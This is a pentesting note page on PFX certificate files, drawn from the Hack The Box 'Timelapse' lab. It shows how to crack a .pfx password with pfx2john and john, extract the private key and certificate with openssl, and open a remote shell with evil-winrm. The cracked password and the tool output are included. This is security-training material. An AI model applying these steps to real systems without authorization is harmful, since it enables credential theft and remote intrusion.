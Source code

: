 ```yaml
---
description: >-
  A Personal Information Exchange (PFX) file is a secure container that stores 
  private/public keys and certificates.
---
```


# PFX file

<figure><img src="../.gitbook/assets/image (79).png" alt=""><figcaption></figcaption></figure>

A .pfx file also known as PKCS#12 certificate or .p12 file format can contain certificates in different formats, including .cert, .crt, and .pem. It allows you to securely transfer the certificate and its private key from one computer to another.&#x20;

### Components

PFX files are made of several components

* Private keys&#x20;
* Public keys
* Certificates

### Opening .pfx file

It possible to crack password protected .pfx files with john.                                                                                       &#x20;

```bash
# Use pfxjohn to get hash
$ pfx2john /home/kali/Downloads/legacyy_dev_auth.pfx > winrm.pfx                                                                                                                                                     

# Crack the hash with john.
$ john winrm.pfx --wordlist=rockyou.txt                                                                                                                                                                              
Using default input encoding: UTF-8                                                                                                                                                                                    
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 256/256 AVX2 8x])                                                                                                                                   
Cost 1 (iteration count) is 2000 for all loaded hashes                                                                                                                                                                 
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes                                                                                                                      
Will run 8 OpenMP threads                                                                                                                                                                                              
Press 'q' or Ctrl-C to abort, almost any other key for status                                                                                                                                                          
thuglegacy       (legacyy_dev_auth.pfx)                                                                                                                                                                                
1g 0:00:00:15 DONE (2024-10-18 10:57) 0.06626g/s 214164p/s 214164c/s 214164C/s thumper199..thscndsp1                                                                                                                   
Use the "--show" option to display all of the cracked passwords reliably                                                                                                                                               
Session completed.  
```

Knowing the password it is then possible using openssl to extract the private key and save it as a new .key file. The command will for this is:

### Dumping private key

* Use PKCS#12 format  ([https://en.wikipedia.org/wiki/PKCS\_12](https://en.wikipedia.org/wiki/PKCS_12))
* Exclude certificates from output

```bash
# Extract private key
─$ openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy_dev_auth.pfx.key-enc                                                                                       
Enter Import Password:                                                                                     
Enter PEM pass phrase:                                                                                     
Verifying - Enter PEM pass phrase: 
```

After this we dump the certificate:

```bash
# Dump certificate
openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out legacyy_dev_auth.crt
```

#### Using the key and certificate

Having cracked the .pfx file and extracted the private key and certificate one of the possibilities to use them is WinRm. Commonly used by WinRM is port 5986.&#x20;

* -c    certificate file
* -k    key file
* -S   enable SSL

{% hint style="info" %}
We enable SSL because port 5986 was open which is HTTPS. Port 5985 is HTTP.
{% endhint %}

Finally we connect using evil-winrm

```bash
evil-winrm -i timelapse.htb -S -k legacyy_dev_auth.key -c legacyy_dev_auth.crt

Evil-WinRM shell v3.6                                                                                                                                                                                                  
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                                                                                           
Warning: SSL enabled                                                                                                                                                                                                   
                                                                                                           
Info: Establishing connection to remote endpoint                                                                                                                                                                       
Enter PEM pass phrase:                       
*Evil-WinRM* PS C:\Users\
```





